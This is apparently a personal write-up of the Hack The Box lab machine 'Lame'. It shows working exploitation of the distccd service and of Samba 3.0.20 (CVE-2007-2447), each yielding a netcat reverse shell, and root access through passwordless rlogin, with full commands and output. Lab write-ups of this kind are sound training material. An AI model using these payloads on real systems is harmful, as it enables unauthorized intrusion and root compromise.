 ```yaml
---
title: Hack The Box&#58; Lame
permalink: /HTB/Lame
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Lame_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Lame is an easy level box on HackTheBox and covers many basics. There are multiple approaches for this box and overall it was pretty fun. My approach was to exploit the `distccd` service to gain a foothold, and then using `rlogin` to gain root, as it required no password.

# Walkthrough
Start off by performing a complete, general nmap scan `nmap -p-`
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```
Note that `distccd`, an exploitable service, is running. Remote code execution is possible through Metasploit. Using `exploit/unix/misc/distcc_exec`, set the payload to `cmd/unix/generic` with the command as `echo "nc -e /bin/bash <ip> <port>" > b.sh ; ./b.sh`. The options should look similar to this
```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/generic):

   Name  Current Setting                                                                     Required  Description
   ----  ---------------                                                                     --------  -----------
   CMD   echo "nc -e /bin/bash 10.10.14.4 4444" > b.sh ; chmod +x ./b.sh ; ./b.sh            yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
   ```
This payload creates a script for a reverse shell on the victim machine, makes it executable, then executes it. So before this exploit is run, make sure you have a listener open on your host with `nc -nvlp <port>`. After receiving a connection and upgrading our shell with `python -c 'import pty; pty.spawn("/bin/bash")`, we should have something like this:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 52475
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$ 
```
Enumerating further with `nmap localhost` gives us much more information now.
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
953/tcp  open  rndc
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
3632/tcp open  distccd
4444/tcp open  krb524
5432/tcp open  postgres
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
```
Port 513, rlogin, is dated and vulnerable by default and doesn't require password by default. This can be exploited with `rlogin localhost -l root`.
```
daemon@lame:/tmp$ rlogin localhost -l root
rlogin localhost -l root
Last login: Thu Sep 30 10:48:49 EDT 2021 from :0.0 on pts/0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~#
```
We have successfully rooted the machine.

# Bonus
Something to note about this box is how many attack vectors there are and false leads. Version numbers for many services running were exploitable, but I had not done that on my initial attempt. 

## Alternate Approach: SMB 3.0.20, No metasploit
Doing a more detailed nmap scan, checking version numbers and using scripts with `nmap -sC -sV`, we can find that Samba is running.
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Googling the version (3.0.20), we can find that this version along with others between 3.0.0 and 3.0.25, are vulnerable to remote code execution (CVE-2007-2447). First, enumeration of the available shares is necessary through `smbmap -H 10.10.10.3`:
```
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
Since access to the /tmp share is given, an attacker can connect to it and utilize the CVE. Connect to it via `smbclient //10.10.10.3/tmp`:
```
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Anonymous logon was granted so that is why access was possible. From the Samba terminal, RCE is possible in this version. Running the command ``logon "./=`nohup nc -e /bin/sh <local ip> <local port>`"`` in the Samba terminal while having a listener on the attacking machine with `nc -nvlp <local port>` returns an error in the Samba terminal
```
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.4 4444`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
```
But on the listener, the attacker actually gains a root shell.
```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38533
whoami
root
```

## Alternate Approach: SMB 3.0.20, with Metasploit
Metasploit makes usages of the CVE much easier. Simply searching for this Samba version in the Metasploit console with `search exploit samba 3.0.20` returns
```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using this exploit while setting our options
```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <local ip>       yes       The listen address (an interface may be specified)
   LPORT  <local port>     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
Will give us a root shell just like the previous method shown.
## Failed Attack Vectors
There were many failed attack vectors, some of the notable ones were: FTP and MySQL no root password. This FTP version (2.3.4) is vulnerable to an exploit that didn't work. Additionally, access to the locally hosted MySql database as the root user required no password, but the credentials and information found in the database weren't applicable anywhere.

--Dylan Tran 9/30/21
